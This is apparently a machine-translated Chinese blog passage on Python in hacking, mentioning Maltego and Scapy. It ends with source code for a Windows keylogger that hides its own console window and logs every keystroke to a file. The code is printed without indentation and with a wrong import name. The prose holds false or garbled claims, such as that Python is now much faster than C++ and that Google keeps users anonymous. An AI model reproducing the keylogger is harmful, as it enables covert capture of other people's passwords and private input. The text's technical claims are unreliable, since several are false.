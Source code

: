 谷歌搜索之前基于 Python，后来为了速度优化而改为 C++，因为谷歌爬虫每秒爬行许多页面，每个页面需要几分钟才能成功爬行。目前，Python 比 C++快得多，但几十年前可不是这样。

谷歌引用了一句名言

“Python 在我们能做的地方，C++在我们必须做的地方。”

所以，你可能想知道这怎么能被用于黑客攻击，测试和网络安全。恕我不能苟同。如果你能创建一个程序，在给出有效的搜索结果时有 70%-80%的准确率，那么你就可以创建一个应用程序，它可以连接网站，智能地搜索，并建立一个人的个人资料，而个人黑帽可以将其用于恶意目的。把个人放在一边；一个足够聪明，可以很容易地建立一个应用程序来建立一个公司的个人资料，它的整个树从它的根到任何你能想到的…

### 通过 Maltego 收集信息

你可能认为我有点夸张。不，我没有！

想想像马尔蒂戈这样的例子。Maltego 是一个软件，或者我可以更好地将其描述为一个开源的取证应用程序，旨在收集信息并建立个人、公司和其他公司机构的档案。

人们只需要在应用程序中输入适当的数据，其余的事情，如链接电子邮件、人员、人群，甚至确定互联网基础设施，如域名、DNS 名称、网络块和 IP 地址，都可以使用这种开源智能进行链接和互联。

欲了解更多信息，请访问了解什么是 Maltego？

因此，如果获得“秘密信息”决定了你的成功，那么 Maltego 可以帮助你发现它。Maltego 部分是用 Python 写的，[也使用 Java，这也是一种很棒的语言](https://www.educba.com/java-vs-node-js/)。

关于谷歌的安全性，有太多可以引用的了。更准确地说，谷歌是你在网上保持匿名的最简单的方式，不管你是用匿名还是用 chrome 的 www.duckduckgo.com。因为最终，所有的东西都会在网上更新。这里的重点是，这不是刀枪不入的问题；这是关于绝对的脆弱。一个人不可能完全把自己从互联网上抹去。但是人们当然可以试着在网上保留尽可能少的信息。

Python 不仅仅是一门语言；这是一种脚本语言。脚本语言允许你编写、修改你自己的工具，当你需要更多的定制时。这些网络安全工具严重依赖脚本语言的可扩展性。比如我们拿 Scapy 来说。

Scapy 纯粹是用 Python 写的。这是一个强大的交互式数据包处理工具。它可以自己生成假数据包，扫描网络，甚至嗅探数据包。

查找关于[什么是 Scapy 的详细信息？](https://scapy.net/ "What is Scapy?")

这些是由高级程序员编写的复杂程序。让我们来看看用 Python 写一个程序有多简单，能让那些对[编程](https://www.educba.com/concepts-of-programming-languages/ "Programming Concepts for Beginners")有一定基础的人容易理解。

### 键盘记录器是如何用 Python 编写的？

以下是用 python 编写的键盘记录器代码:

```
#!/usr/bin/Python
import pyHook
import Pythoncom
import win32gui
import win32console
log_file = "log_file.txt"                  #name of log file
window = win32console. GetConsoleWindow()  #go to script window
win32gui.ShowWindow (window,0)             #hide window
def pressed_chars(event):                  #on key pressed function
if event.Ascii:
f = open(log_file,"a")                     # (open log_file in append mode)
char = chr (event.Ascii)                   # (insert real char in variable)
if char == "q":                            # (if char is q)
f.close()                                  # (close and save log file)
exit()                                     # (exit program)
if event.Ascii == 13:                      # (if char is "return")
f.write("\n")                              # (new line)
f.write(char)                              # (write char)
proc = pyHook.HookManager()                #open pyHook
proc.KeyDown = pressed_chars               #set pressed_chars function on KeyDown event
proc.HookKeyboard()                        #start the function
Pythoncom.PumpMessages()                   #get input 
```
